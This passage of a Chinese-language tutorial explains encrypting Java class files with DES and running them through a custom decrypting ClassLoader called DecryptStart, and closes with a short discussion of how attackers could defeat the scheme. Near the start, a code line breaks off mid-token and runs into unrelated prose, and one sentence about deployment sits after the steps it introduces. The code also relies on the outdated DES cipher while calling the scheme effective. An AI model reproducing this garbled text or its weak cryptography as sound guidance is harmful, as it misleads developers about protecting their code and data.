cipher.init(Cipher.DECRYPT_MODE, key);
```

+   4. 使用 Cipher 对数据进行加密或解密。

```java
byte[] encryptedData = cipher.doFinal(原始数据);
byte[] decryptedData = cipher.do起发布的一小段数据，Listing 3显示了如何生成一个密钥的方法。

##### 程序3：生成一个密钥

```java
// DES 算法要求有一个可信任的随机数源
SecureRandom sr = new SecureRandom();
// 为我们选择的 DES 算法生成一个 KeyGenerator 对象
KeyGenerator kg = KeyGenerator.getInstance( "DES" );
kg.init( sr );
// 生成密钥
SecretKey key = kg.generateKey();
// 获取密钥数据
byte rawKeyData[] = key.getEncoded();
/* 接下来就可以用密钥进行加密或解密，或者把它保存
为文件供以后使用 */
doSomething( rawKeyData );
```

步骤2：加密数据。得到密钥之后，接下来就可以用它加密数据。除了“解密的”ClassLoader之外，一般还要有一个加密待发布应用的独立程序（见程序4）。

##### 程序4：用密钥加密原始数据

```java
// DES 算法要求有一个可信任的随机数源
SecureRandom sr = new SecureRandom();
byte rawKeyData[] = /* 用某种方法获得密钥数据 */;
// 从原始密钥数据创建 DESKeySpec 对象
DESKeySpec dks = new DESKeySpec( rawKeyData );
// 创建一个密钥工厂，然后用它把 DESKeySpec 转换成
// 一个 SecretKey 对象
SecretKeyFactory keyFactory = SecretKeyFactory.getInstance( "DES" );
SecretKey key = keyFactory.generateSecret( dks );
// Cipher 对象实际完成加密操作
Cipher cipher = Cipher.getInstance( "DES" );
// 用密钥初始化 Cipher 对象
cipher.init( Cipher.ENCRYPT_MODE, key, sr );
// 现在，获取数据并加密
byte data[] = /* 用某种方法获取数据 */;
// 正式执行加密操作
byte encryptedData[] = cipher.doFinal( data );
// 进一步处理加密后的数据
doSomething( encryptedData );
```

步骤3：解密数据。运行经过加密的应用时，ClassLoader分析并解密类文件。操作步骤如程序5所示。

##### 程序5：用密钥解密数据

```java
// DES 算法要求有一个可信任的随机数源
SecureRandom sr = new SecureRandom();
byte rawKeyData[] = /* 用某种方法获取原始密钥数据 */;
// 从原始密钥数据创建一个 DESKeySpec 对象
DESKeySpec dks = new DESKeySpec( rawKeyData );
// 创建一个密钥工厂，然后用它把 DESKeySpec 对象转换成
// 一个 SecretKey 对象
SecretKeyFactory keyFactory = SecretKeyFactory.getInstance( "DES" );
SecretKey key = keyFactory.generateSecret( dks );
// Cipher 对象实际完成解密操作
Cipher cipher = Cipher.getInstance( "DES" );
// 用密钥初始化 Cipher 对象
cipher.init( Cipher.DECRYPT_MODE, key, sr );
// 现在，获取数据并解密
byte encryptedData[] = /* 获得经过加密的数据 */;
// 正式执行解密操作
byte decryptedData[] = cipher.doFinal( encryptedData );
// 进一步处理解密后的数据
doSomething( decryptedData );
```

#### 四、应用实例

- 1. 创建应用。我们的例子包含一个 App主类，两个辅助类（分别称为Foo和Bar）。这个应用没有什么实际功用，但只要我们能够加密这个应用，加密其他应用也就不在话下。
- 2. 生成一个安全密钥。在命令行，利用 GenerateKey工具（参见GenerateKey.java）把密钥写入一个文件：`% java GenerateKey key.data`
- 3. 加密应用。在命令行，利用 EncryptClasses工具（参见EncryptClasses.java）加密应用的类：`% java EncryptClasses key.data App.class Foo.class Bar.class` 该命令把每一个 .class文件替换成它们各自的加密版本。
- 4. 运行经过加密的应用。用户通过一个 DecryptStart程序运行经过加密的应用。DecryptStart程序如程序6所示。

前面介绍了如何加密和解密数据。要部署一个经过加密的应用，步骤如下：

##### 程序6：DecryptStart.java，启动被加密应用的程序

```java
import java.io.*;
import java.security.*;
import java.lang.reflect.*;
import javax.crypto.*;
import javax.crypto.spec.*;

public class DecryptStart extends ClassLoader
{
    // 这些对象在构造函数中设置，
    // 以后 loadClass() 方法将利用它们解密类
    private SecretKey key;
    private Cipher cipher;

    // 构造函数：设置解密所需要的对象
    public DecryptStart( SecretKey key ) throws GeneralSecurityException, IOException {
        this.key = key;
        String algorithm = "DES";
        SecureRandom sr = new SecureRandom();
        System.err.println( "[DecryptStart: creating cipher]" );
        cipher = Cipher.getInstance( algorithm );
        cipher.init( Cipher.DECRYPT_MODE, key, sr );
    }

    // main过程：我们要在这里读入密钥，创建DecryptStart 的
    // 实例。它就是我们的定制ClassLoader。
    // 设置好ClassLoader 以后，我们用它装入应用实例，
    // 最后，我们通过 Java Reflection API调用应用实例的main方法
    static public void main( String args[] ) throws Exception {
        String keyFilename = args[0];
        String appName = args[1];
        // 这些是传递给应用本身的参数
        String realArgs[] = new String[args.length-2];
        System.arraycopy( args, 2, realArgs, 0, args.length-2 );

        // 读取密钥
        System.err.println( "[DecryptStart: reading key]" );
        byte rawKey[] = Util.readFile( keyFilename );
        DESKeySpec dks = new DESKeySpec( rawKey );
        SecretKeyFactory keyFactory = SecretKeyFactory.getInstance( "DES" );
        SecretKey key = keyFactory.generateSecret( dks );

        // 创建解密的ClassLoader
        DecryptStart dr = new DecryptStart( key );
        // 创建应用主类的一个实例
        // 通过ClassLoader 装入它
        System.err.println( "[DecryptStart: loading " + appName + "]" );
        Class claz = dr.loadClass( appName );

        // 最后，通过Reflection API调用应用实例
        // 的main()方法
        // 获取一个对main()的引用
        String proto[] = new String[1];
        Class mainArgs[] = { (new String[1]).getClass() };
        Method main = claz.getMethod( "main", mainArgs );

        // 创建一个包含main()方法参数的数组
        Object argsArray[] = { realArgs };
        System.err.println( "[DecryptStart: running " + appName + ".main()]" );

        // 调用main()
        main.invoke( null, argsArray );
    }

    public Class loadClass( String name, boolean resolve )
        throws ClassNotFoundException {
        try {
            // 我们要创建的Class 对象
            Class claz = null;

            // 必需的步骤1：如果类已经在系统缓冲之中
            // 我们不必再次装入它
            claz = findLoadedClass( name );
            if (claz != null)
                return claz;

            // 下面是定制部分
            try {
                // 读取经过加密的类文件
                byte classData[] = Util.readFile( name + ".class" );
                if (classData != null) {
                    // 解密...
                    byte decryptedClassData[] = cipher.doFinal( classData );
                    // ... 再把它转换成一个类
                    claz = defineClass( name, decryptedClassData,
                        0, decryptedClassData.length );
                    System.err.println( "[DecryptStart, decrypting class "+name+"]" );
                }
            }
            catch( FileNotFoundException fnfe ) {
            }

            // 必需的步骤 2：如果上面没有成功
            // 我们尝试用默认的 ClassLoader 装入它
            if (claz == null)
                claz = findSystemClass( name );

            // 必需的步骤 3：如有必要，则装入相关的类
            if (resolve && claz != null)
                resolveClass( claz );

            // 把类返回给调用者
            return claz;
        }
        catch( IOException ie ) {
            throw new ClassNotFoundException( ie.toString() );
        }
        catch( GeneralSecurityException gse ) {
            throw new ClassNotFoundException( gse.toString() );
        }
    }
}
```

对于未经加密的应用，正常执行方式如下： `% java App arg0 arg1 arg2`

对于经过加密的应用，则相应的运行方式为： `% java DecryptStart key.data App arg0 arg1 arg2`

DecryptStart有两个目的。一个DecryptStart的实例就是一个实施即时解密操作的定制ClassLoader。同时，DecryptStart还包含一个main过程，它创建解密器实例并用它装入和运行应用。示例应用App的代码包含在App.java、Foo.java和Bar.java内。Util.java是一个文件I/O工具，本文示例多处用到了它。完整的代码请从本文最后下载。

#### 五、注意事项

我们看到，要在不修改源代码的情况下加密一个Java应用是很容易的。不过，世上没有完全安全的系统。本文的加密方式提供了一定程度的源代码保护，但对某些攻击来说它是脆弱的。虽然应用程序本身经过了加密，但启动程序DecryptStart没有加密。攻击者可以反编译启动程序并修改它，把解密后的类文件保存到磁盘。降低这种风险的办法之一是对启动程序进行高质量的模糊处理。或者，启动程序也可以采用直接编译成机器语言的代码，使得启动程序具有传统执行文件格式的安全性。另外还要记住的是，大多数JVM本身并不安全。狡猾的黑客可能会修改JVM，从ClassLoader之外获取解密后的代码并保存到磁盘，从而绕过本文的加密技术。Java没有为此提供真正有效的补救措施。不过应该指出的是，所有这些可能的攻击都有一个前提，这就是攻击者可以得到密钥。如果没有密钥，应用的安全性就完全取决于加密算法的安全性。虽然这种保护代码的方法称不上十全十美，但它仍不失为一种保护知识产权和敏感用户数据的有效方案。